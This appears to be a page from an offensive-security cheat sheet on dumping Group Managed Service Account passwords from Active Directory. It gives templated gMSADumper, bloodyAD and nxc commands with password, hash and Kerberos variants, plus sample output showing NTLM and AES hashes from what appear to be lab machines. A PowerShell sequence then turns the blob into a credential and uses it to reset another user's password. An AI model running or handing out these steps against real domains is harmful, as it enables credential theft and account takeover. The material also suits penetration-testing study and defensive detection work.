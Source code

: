 ```yaml
---
title: "ReadGMSAPassword"
date: 2025-3-31
tags: ["Credential Dumping", "ReadGMSApassword", "Gmsadumper", "Active Directory", "Windows"]
---
```


### Abuse #1: Read GMSAPassword (From Linux)

#### 1. Set Allowed to Retrieve the Password for this MSA \[Optional\]

```console
Set-ADServiceAccount -Identity "<TARGET_IDENTITY>" -PrincipalsAllowedToRetrieveManagedPassword "<USER>"
```

#### 2. Read GMSA Password

{{< tab set1 tab1 >}}gMSADumper{{< /tab >}}
{{< tab set1 tab2 >}}bloodyAD{{< /tab >}}
{{< tab set1 tab3 >}}nxc{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Password
python3 gMSADumper.py -u '<USER>' -p '<PASSWORD>' -l <DC> -d <DOMAIN>
```

```console {class="sample-code"}
$ python3 gMSADumper.py -u ted.graves -p Mr.Teddy -l intelligence.htb -d intelligence.htb
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::745bd2c68dfc101a74f48d87027c7dc6
svc_int$:aes256-cts-hmac-sha1-96:8b2e9edb20258a45ad9084c89e7df761f3b85da5abd92849c150d4ed43f1056f
svc_int$:aes128-cts-hmac-sha1-96:798345b20bd9a8866a87b351c0ad68f3
```

```console
# NTLM
python3 gMSADumper.py -u '<USER>' -p '<LM_HASH>:<NT_HASH>' -l <DC> -d <DOMAIN>
```

```console
# Kerberos
python3 gMSADumper.py -k -l <DC> -d <DOMAIN>
```

<small>*Ref: [gMSADumper](https://github.com/micahvandeusen/gMSADumper)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Password
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> get object '<TARGET_OBJECT>' --attr msDS-ManagedPassword
```

```console {class="sample-code"}
$ bloodyAD -d intelligence.htb -u ted.graves -p 'Mr.Teddy' --host intelligence.htb get object 'svc_int$' --attr msDS-ManagedPassword 

distinguishedName: CN=svc_int,CN=Managed Service Accounts,DC=intelligence,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:80d4ea8c2d5ccfd1ebac5bd732ece5e4
msDS-ManagedPassword.B64ENCODED: wcVVmCKWYOZszus92zsZDFqtPFYu960EdHowLnWB5vChR4R/yj+hgVusvxgnG1OYREO70qnEiCEfP62qLZluS/UHz53T94CItJ+YxA6W5jiWTy0L03JgE1m87NCnxrzGSXHXjp4Ja1OKDde9RrIaqGN7C7cFZth05q1bOOO+x8+jdD1xRXHKgig5LDk4inLQ1xqu7Lc4vT/hIIPx2dbS0FNwGtKu2NTTVAAB/LgVwYnfMNkpti2T0cE8R12HzjGVLV/54GLU1O8iLyXdnfgAQUdnccIlSacJ3XItjjeTWuOwCKQKmc0o8BbE+rHjA5dotmBiBHsE9bw3YsCh0SNTeA==
```

```console
# NTLM
bloodyAD -d <DOMAIN> -u '<USER>' -p ':<HASH>' -f rc4 --host <DC> get object '<TARGET_OBJECT>' --attr msDS-ManagedPassword
```

```console
# Kerberos
bloodyAD -d <DOMAIN> -u '<USER>' -k ccache='<USER>.ccache' --host <DC> get object '<TARGET_OBJECT>' --attr msDS-ManagedPassword
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
# Password
nxc ldap -u '<USER>' -p '<PASSWORD>' -d <DOMAIN> <DC> --gmsa
```

```console {class="sample-code"}
$ nxc ldap -u ted.graves -p 'Mr.Teddy' -d intelligence.htb dc01.intelligence.htb --gmsa
SMB         10.10.10.248    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
LDAPS       10.10.10.248    636    DC               [+] intelligence.htb\ted.graves:Mr.Teddy 
LDAPS       10.10.10.248    636    DC               [*] Getting GMSA Passwords
LDAPS       10.10.10.248    636    DC               Account: svc_int$             NTLM: 80d4ea8c2d5ccfd1ebac5bd732ece5e4
```

```console
# NTLM
nxc ldap -u '<USER>' -H '<HASH>' -d <DOMAIN> <DC> --gmsa
```

```console
# Kerberos
nxc ldap -u '<USER>' -k --use-kcache -d <DOMAIN> <DC> --gmsa
```

{{< /tabcontent >}}

---

### Abuse #2: Save as Cred

{{< tab set2 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
$gmsa = Get-ADServiceAccount -Identity '<TARGET_IDENTITY>' -Properties 'msDS-ManagedPassword'
```

```console {class="sample-code"}
PS C:\programdata> $gmsa = Get-ADServiceAccount -Identity 'BIR-ADFS-GMSA' -Properties 'msDS-ManagedPassword'
```

```console
$mp = $gmsa.'msDS-ManagedPassword'
```

```console {class="sample-code"}
PS C:\programdata> $mp = $gmsa.'msDS-ManagedPassword

PS C:\programdata> ConvertFrom-ADManagedPasswordBlob $mp

Version                   : 1
CurrentPassword           : ꪌ絸禔හॐ๠뒟娯㔃ᴨ蝓㣹瑹䢓疒웠ᇷꀠ믱츎孻勒壉馮ၸ뛋귊餮꤯ꏗ춰䃳ꘑ畓릝樗껇쁵藫䲈酜⏬궩Œ痧蘸朘嶑侪糼亵韬⓼ↂᡳ춲⼦싸ᖥ裹沑扚羺歖㗻෪ꂓ㚬⮗㞗ꆱ긿쾏㢿쭗캵십ㇾ롤
                            ᒛ�䬁ማ譿녓鏶骲雰騆惿閴滭䶙竜迉竾ﵸ䲗蔍瞬䦕垞뉧⩱茾蒚⟒澽座걍盡篇
SecureCurrentPassword     : System.Security.SecureString
PreviousPassword          : 
SecurePreviousPassword    : 
QueryPasswordInterval     : 2019.19:45:41.4967000
UnchangedPasswordInterval : 2019.19:40:41.4967000
```

```console
$password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
```

```console {class="sample-code"}
PS C:\programdata> $password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
```

```console
$SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

```console {class="sample-code"}
PS C:\programdata> $SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

```console
$cred = New-Object System.Management.Automation.PSCredential '<TARGET_NAME>', $SecPass
```

```console {class="sample-code"}
PS C:\programdata> $cred = New-Object System.Management.Automation.PSCredential 'BIR-ADFS-GMSA', $SecPass
```

```console
# For example, change password of another target user
Invoke-Command -ComputerName <COMPUTER_NAME> -ScriptBlock {Set-ADAccountPassword -Identity '<ANOTHER_TARGET_NAME>' -reset -NewPassword (ConvertTo-SecureString -AsPlainText '<NEW_PASSWORD>' -force)} -Credential $cred
```

```console {class="sample-code"}
PS C:\programdata> Invoke-Command -ComputerName . -ScriptBlock {Set-ADAccountPassword -Identity 'tristan.davies' -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Test1234' -force)} -Credential $cred
```

{{< /tabcontent >}}
